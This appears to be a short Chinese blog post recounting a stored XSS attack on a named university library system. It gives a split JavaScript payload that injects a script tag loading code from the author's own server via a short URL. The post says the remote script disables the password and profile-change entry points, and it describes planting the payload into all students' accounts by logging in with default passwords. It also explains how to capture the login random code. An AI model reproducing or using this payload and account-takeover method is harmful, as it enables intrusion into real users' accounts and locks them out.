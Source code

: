 ```yaml
---
layout: post
title: 图书馆系统的XSS漏洞
categories: demos
tags: XSS
---
```



![攻击环境](/assets/dist/img/2016-11-06 14-33-51屏幕截图.png)  
本想在一个输入框内植入所有代码，然而后端限制输入长度，故只能将代码切割，然后依次植入。  
因为各个脚本均在同一上下文环境中执行，故可以切。  
另，这里攻击脚本的链接可以使用短地址。  
植入的脚本如下，唯一的功能是引入我[服务器上的脚本](//dwz.cn/2qFuMT)，要干的事都在上面写。
{% highlight javascript %}
p=$('body')
a=$('<script>')
b='//dwz.cn'
b+='/2qFuMT'
a[0].src=b
p.append(a)
{% endhighlight %}

服务器的那个脚本一看就懂没啥好说，主要是关掉修改资料和密码的入口。  
大多人没修改默认密码，随便找个后端语言（比如python）跑一遍，全校学生的帐号基本上都会被植入。   

登录图书馆系统除了提交帐号密码外还要一个随机码。  
打开[首页](///al.lib.xidian.edu.cn/),"登录"这一链接上就藏有随机码。  
抓下登录时的post请求就知道，会同时提交这个随机码。
  
